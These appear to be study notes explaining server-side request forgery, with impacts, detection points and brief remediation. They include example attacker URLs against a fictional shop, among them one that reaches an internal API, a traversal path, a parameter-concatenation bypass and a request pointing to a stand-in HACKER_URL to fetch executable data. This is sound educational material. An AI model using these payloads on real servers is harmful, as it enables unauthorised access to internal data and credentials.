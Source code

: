 allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing

a lot of trial and error will be required to find a working payload

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as https://requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

-   Access to unauthorised areas
-   Access to customer/organisational data
-   Ability to Scale to internal networks
-   Reveal authentication tokens/credentials

# Examples 
the server expects an endpoint or URL to fetch data from:

## Normal URL
**Expected Request:**
`http://my-shop.de/stock?url=http://api.my-shop.de/api/stock/item?id=123`
**Hacker Request:**
`http://my-shop.de/stock?url=http://api.my-shop.de/api/user` to get user data
`http://my-shop.de/stock?url=http://HACKER_URL/malicious/file` to provide a different url to fetch (executable) data from

## directory traversal
where only the url path can be provided
**Expected Request:**
`http://my-shop.de/stock?url=/item&id=123`
**Hacker Request:**
`http://my-shop.de/stock?url=/../user` to get user data

## concattenated URL
some web apps let us provide a subdomain which is then concattenated with the second-level domain and TLD.
we could by pass that with `&x=` to interrupt the rest 
**Expected Request:**
`http://my-shop.de/stock?server=api&id=123` which is concattteated to: `http://my-shop.de/stock?server=api.my-shop.de/api/stock/item&?id=123`
**Hacker Request:**
`http://my-shop.de/stock?server=api.my-shop.de/api/user&x=&id=123` to get user data


# Finding a SSRF vulnurability
## full URL in Parameter
`http://my-shop.de/stock?url=http://api.my-shop.de/api/stock/item?id=123`
## partial URL in Parameter e.g. Hostname
`http://my-shop.de/stock?server=api`
## only path of URL in parameter
`http://my-shop.de/stock?destination=/item&id=123`
## Forms and input
in the HTML Forms some forms and inputs allow to enter a full / partial URL as value.
e.g. to select a avatar or sth like that where the path of the avatar is provided and loaded -> here we could enter a different value


# Remediation: How to prevent SSRF
1. Allow List 
2. Deny List
3. validating user input
4. replace values to prevent path / directory traversal